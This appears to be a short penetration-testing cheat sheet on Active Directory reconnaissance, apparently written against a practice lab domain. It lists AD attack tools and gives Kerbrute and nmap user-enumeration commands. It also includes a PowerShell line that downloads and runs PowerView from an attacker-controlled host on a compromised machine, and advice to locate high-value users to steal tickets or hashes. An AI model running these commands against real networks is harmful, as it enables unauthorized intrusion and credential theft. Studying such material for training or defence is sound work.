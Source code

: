 

### Tooling based Approach

* Helpful **Tools**:

* crackmapexec
* `enum4linux -a target_ip > enum.log`

* AD recon: https://github.com/sense-of-security/ADRecon
* Bloodhound: https://github.com/BloodHoundAD/BloodHound
* targetedKerberoast: https://github.com/ShutdownRepo/targetedKerberoast


#### Kerbrute

* kerbrute

`./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.43.76  userlist.txt`

* Nmap
```
nmap -p 88 --script krb5-enum-users --script-args "krb5-enum-users.realm='spookysec.local', userdb=userlist.txt 10.10.43.76"
```

#### PowerView

* Poverview has a lot of built-in AD functionalities
* So once a domain machine is compromised, upload and run powerview on it

```powershell

# download and execute commands

IEX(New-Object Net.WebClient).downloadString('http://192.168.1.xxx/PowerView.ps1'); Get-NetComputer | select cn;


```

* Useful poverview commands

``` powershell
#get all computers in AD

Get-NetComputer | select cn

# users

Get-NetUser | select cn

# groups 

Get-NetGroup
```

* It is important to find high value target users and where they are currently logged in to later compromise those machines and retrieve tickets or hashes.
